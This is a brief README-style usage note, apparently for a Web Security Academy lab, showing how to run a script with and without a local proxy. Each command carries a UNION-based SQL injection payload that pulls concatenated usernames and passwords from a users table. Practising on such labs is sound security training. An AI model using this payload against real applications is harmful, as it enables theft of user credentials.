 # How to run script.py

### SQL injection UNION attack, retrieving multiple values in a single column

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "' UNION SELECT NULL,username|| '-' ||password FROM users--"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "' UNION SELECT NULL,username|| '-' ||password FROM users--" -p 127.0.0.1:8080`
